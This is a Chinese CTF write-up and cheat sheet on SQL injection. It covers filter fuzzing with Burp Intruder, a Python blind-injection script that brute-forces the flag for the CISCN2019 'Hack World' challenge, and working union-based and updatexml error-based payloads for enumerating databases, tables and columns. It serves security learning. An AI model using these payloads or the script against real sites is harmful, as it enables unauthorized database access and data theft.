

# 1.fuzz测试过滤字符
- [CISCN2019 华北赛区 Day2 Web1]Hack World
题目提示：flag{} 里为 uuid。

使用 /attack/sql-injection/detect/xplatform.txt构造payload
抓包发送到Intruder，自动添加添加payload位置
设置payload，从文件中加载/attack/sql-injection/detect/xplatform.txt，开始攻击
选择请求查看response，发现长度530的返回SQL Injection Checked，长度520的返回bool(false)，说明长度530的都被过滤

测试注入点，发现是盲注

直接查flag表flag字段的内容:
使用中括号()代替空格
id=(select(ascii(mid(flag,1,1))=102)from(flag))

编写脚本爆破：
```python
# -*- coding:utf-8 -*-
# Author: mochu7
import requests
import string


def blind_injection(url):
    flag = ""
    strings = string.printable
    # num设置大一点，flag是uuid
    for num in range(1, 100):
        for i in strings:
            payload = "(select(ascii(mid(flag,{0},1))={1})from(flag))".format(
                num, ord(i)
            )
            post_data = {"id": payload}
            res = requests.post(url=url, data=post_data)
            if "Hello" in res.text:
                flag += i
                print(flag)
            else:
                continue
    print(flag)


if __name__ == "__main__":
    url = "http://5386a1e3-de18-477c-8aa0-b0eb80124870.node5.buuoj.cn:81/index.php"
    blind_injection(url)
```
需要几分钟才能跑完

# 字符型-数字型判断
- 数字型：
?id=1 and 1=1#
?id=1 and 1=2#
如果是数字型，第一条正确回显，第二条报错

- 字符型：
?id=1' and 1=1#
?id=1' and 1=2#
如果是字符型，第一条正确，第二条报错
\# 有时需要替换成 --+ 或者 %23

- 爆列数，这里以字符型举例
?id=1' order by 3--+
依次增加，直到报错的上一个数字就是列数

- 联合注入查询数据库名，以字段数为3举例
?id=-1' union select 1,2,database()--+

- 联合注入查询数据库中的表名
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='note'--+
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='note')--+

- 联合注入查询表中的字段名
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='fl4g')--+

- 联合查询属性值
?id=-1' union select 1,2,fllllag from fl4g--+

# 报错注入
https://blog.csdn.net/m0_60988110/article/details/123544853
- 原理：
updatexml(xml_doument,XPath_string,new_value)
第一个参数：XML的内容
第二个参数：是需要update的位置XPATH路径
第三个参数：是更新后的内容

name=1' and updatexml(1,version(),1)#
version()不符合XPATH语法，发生报错

name=1' and updatexml(1,concat(0x7e,version()),1)#
0x7e 让XPATH校验失败，version()是真正想查询的内容，使用concat连接

